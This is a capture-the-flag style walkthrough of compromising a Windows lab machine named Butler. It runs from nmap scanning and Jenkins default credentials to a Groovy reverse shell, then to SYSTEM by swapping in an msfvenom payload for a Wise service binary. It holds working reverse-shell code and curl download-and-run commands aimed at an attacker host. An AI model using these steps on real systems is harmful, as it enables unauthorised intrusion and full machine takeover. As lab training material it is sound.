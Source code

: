 # Butler

## Ennumeration <a href="#ennumeration" id="ennumeration"></a>

```
sudo netdiscover -r 10.0.2.0/24

 10.0.2.80       08:00:27:59:23:51      1      60  PCS Systemtechnik GmbH                                                                                  
```

* nmap

```
nmap -T4 -p- -A 10.0.2.80      

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-16 14:14 EST
Nmap scan report for 10.0.2.80
Host is up (0.00025s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:59:23:51 (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2022-02-17T03:18:23
|_  start_date: N/A
|_clock-skew: 7h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 267.15 seconds
```

## Jenkins <a href="#jenkins" id="jenkins"></a>

[http://10.0.2.80:8080/](http://10.0.2.80:8080/)

* Password spraying with Cluster bomb inside Burp Suite

Found

user: Jenkins pass: Jenkins

Manage Jenkins -> Scrip console

```
http://10.0.2.80:8080/script
```

Search on google for groovy remote shell

* Attacker machine

```
nc -nvlp 8044
```

* Jenkins Console

```
String host="10.0.2.10";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

* Result

```
nc -nvlp 8044                                                                                                                                     127 ⨯
listening on [any] 8044 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.80] 50814
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler

C:\Program Files\Jenkins>
```

### Privilege escalation <a href="#privilege-scalation" id="privilege-scalation"></a>

[PEASS-ng](https://github.com/carlospolop/PEASS-ng)

Download the X64 version for windows

Can use the `python3 -m http.server 80` to create a socket and connection or download directly inside the machine

```
curl http://10.0.2.10/winPEASx64.exe --output winpeas.exe

winpeas.exe
```

* The juicy part of the output

```
����������͹ Scheduled Applications --Non Microsoft--
� Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries                                                                                                                                              
    (Lespeed Ltd.) Wise Care 365.job: C:\Program Files (x86)\Wise\Wise Care 365\WiseTray.exe -StartTray
    Permissions file: Administrators [AllAccess]
    Permissions folder(DLL Hijacking): Administrators [AllAccess]
    Trigger: At log on of any user
   =================================================================================================

    (Lespeed Ltd.) Wise Turbo Checker.job: C:\Program Files (x86)\Wise\Wise Care 365\WiseTurbo.exe 
    Permissions file: Administrators [AllAccess]
    Permissions folder(DLL Hijacking): Administrators [AllAccess]
    Trigger: At 5:35 AM every day
   =================================================================================================
```

<figure><img src="../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

With that, we can put an executable in this path, and it will treat as part of the service

* Generate reverse shell with msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.10 LPORT=7777 -f exe > Wise.exe
```

* Download and execute malware

On attacker machine, open another shell

```
nc -nvlp 7777
```

On vulnerable machine

```
cd "C:\Program Files (x86)\Wise"
curl http://10.0.2.10/Wise.exe -o Wise.exe

sc stop WiseBootAssistant
sc start WiseBootAssistant
```

```
nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.80] 49695
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

\

